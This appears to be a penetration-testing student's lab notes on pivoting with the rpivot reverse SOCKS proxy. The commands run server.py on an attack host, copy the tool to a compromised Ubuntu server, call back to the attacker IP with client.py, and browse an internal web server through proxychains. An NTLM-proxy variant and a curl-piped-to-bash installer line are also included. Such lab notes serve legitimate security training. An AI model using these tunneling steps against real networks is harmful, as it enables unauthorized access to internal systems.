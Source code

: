 [Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

![[Pasted image 20251023213800.png]]

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

```shell-session
sudo apt-get install python2.7
```
#### Alternative Installation of Python2.7
```shell-session
V0xD0x@htb[/htb]$ curl https://pyenv.run | bash
V0xD0x@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
V0xD0x@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
V0xD0x@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
V0xD0x@htb[/htb]$ source ~/.bashrc
V0xD0x@htb[/htb]$ pyenv install 2.7
V0xD0x@htb[/htb]$ pyenv shell 2.7
```

### Clone Rpivot
```shell
git clone https://github.com/klsecservices/rpivot.git
```
We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.
#### Running server.py from the Attack Host
```shell
 python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transferring rpivot to the Target
```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target
```shell
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
#### Browsing to the Target Webserver using Proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```
![[Pasted image 20251023214607.png]]

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:
#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```shell
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
